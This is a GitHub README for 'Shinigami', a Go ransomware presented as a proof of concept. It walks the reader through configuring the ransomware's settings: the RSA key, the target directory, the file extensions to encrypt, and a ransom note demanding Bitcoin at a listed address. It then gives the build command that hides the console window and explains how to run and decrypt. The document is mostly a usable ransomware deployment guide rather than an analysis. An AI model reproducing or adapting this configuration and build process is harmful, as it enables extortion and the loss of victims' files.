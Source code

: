 # Shinigami
Shinigami PoC ransomware
![ICON](https://github.com/user-attachments/assets/00d9b120-88c0-4ee6-b1e9-97dd404dab7b)
<br>
Shinigami is a PoC ransomware written in go<br><br>
tested on windows 11
## possibilities:
<ul>
<li>using hybrid encryption (witch is fast and safe)</li>
<li>customize settings</li>
<li>good appearance</li>
<li>changing background picture</li>
</ul>

## requirements:
<ul>
<li>gcc (added to Path)</li>
<li>golang (you can download from here: https://golang.org/dl/)</li>
<li>fyne (golang library: http://www.fyne.io/fyne)</li>
</ul>

## to use:

### clone the repository

```
https://github.com/bala-ganesh-m/Shinigami-Ransomware/
```

### change settings

go to Shinigami/shinigami/main.go and change the settings:

```golang
	/*** SETTINGS ***/
	//server rsa public key ( if you want to change this you should first generate a rsa keypair next replace it in both ransomware and decryptor programs )
	serverpubkey := "-----BEGIN PUBLIC KEY-----\nMIIBojANBgkqhkiG9w0BAQEFAAOCAY8AMIIBigKCAYEA3eWrYNmEzwLXGT0HUqqu\nkrimoiBKZE9mIzWvN51YLONneY0B8/yiLgJxg5pUOp8AEnu3gQm9uPQzbdyZniQq\n58HzSS+2Py17/UWlwqZVueUQ/RBvhH/BaEDZlKK7SUzeUqWbC0klDeLQ1nY48DEJ\nD2wNkz3CWXgDqQ0tfOqy+hRrR6ispOZc7k2SDd6cX8jkKzacH7sxBDYDVT2E/nYP\nkOBcCUW2ywN/y0FE1uqxim+axwtFW652k5ARHalmOVIXM6Oky6r4x49MN8zkIZEC\nhGDIOxQGYUEtp+0NhmAMyl26DtI23NMjyTaB7+DYtEZzSYgBllmfla1RtoEgKaHI\ns30PIUvZQGmg6VcEEhfy0hbtjDjWANkBrNewK46mH9pwH2wsYmm9QSftUjF62PbM\nLrFxoJS1w6NeYTC+s5JqGnG3sftCzGXMI+VSRvoVAWU+mm/ntQj5yww4nRq4Ylre\nJZAsLRUfT87c5uomolGitlGPIyXjxhxgPzc5egvQ199BAgMBAAE=\n-----END PUBLIC KEY-----"
	//root directory ( only files in this directory and subfolders of this directory will be encrypted )
	rootdir := "E:\\"
	//valid file extensions to encrypt ( only files with these extensions will be encrypted )
	validfileextensions := []string{"lnk", "pdf", "doc", "docx", "docm", "xlsx", "xlsm", "jpg", "jpeg", "png", "mp3", "mp4", "mkv", "py", "cs", "c", "c#", "cpp", "pptx", "pkt"}
	//valid file size to encrypt ( only files that have the same or less weight than this will be encrypted )
	//here is 400MB --> 1024 * 1024 * 400 = 419430400
	validfilesize := 419430400
	//the massage you want to show to the victim
	message := "YOUR FILES HAVE BEEN ENCRYPTED \n\nAll of your important files have been locked with our encryption \nYou will not recover them without our decryption tool. \n\nDo not attempt to decrypt the files yourself \nDo not shut down or restart your PC.\n\n"
	message += "To restore access: \nSend $500 in Bitcoin to the address below. \nBitcoin Address: bc1qtnqwcwffkvh6dmu9twfg3x5svwew0lp077k86"
```

### create binary file

just go to Shinigami/shinigami directory and run: <br>

```
go build -ldflags -H=windowsgui -o Shinigami.exe main.go
```

-ldflags -H=windowsgui options will hide the console window

### run the file

just click on shinigami.exe file<br>
after some seconds desktop ppicture will change and a window like this will appear<br>

![Screenshot 2025-04-08 185317](https://github.com/user-attachments/assets/67b60deb-9839-4245-a107-0762a4630694)
<br>


and you can see that some of your files are encrypted<br>

![Screenshot 2025-04-08 185429](https://github.com/user-attachments/assets/33efb55d-bd47-4040-b976-85b4edbac8f5)
<br>

### decrypting files

to decrypt files click on Get victimkey button. you will see a notepad window. <br>

![Screenshot 2025-04-08 185507](https://github.com/user-attachments/assets/42cc79d6-e1f4-4500-a2a4-f50a410c77fe)
<br>

copy this text and go to Shinigami/shinigamidecryptor and run:<br>

```
go run decryptor.go <victim key here>
```

decryptor will give you a 32 character text like this:<br>
```
k8T2fDFkKbdBwdlnbVgxJTucm0oNBdwa
```
now enter this text in Password textbox and click on Check password button. psycho will start to decrypt your files (it can take a while)<br>
![Screenshot 2025-04-08 190112](https://github.com/user-attachments/assets/28fddb9a-e268-4f77-b4bf-7012f59dd8d3)
<br>

Now you got your files back<br>

Have fun!
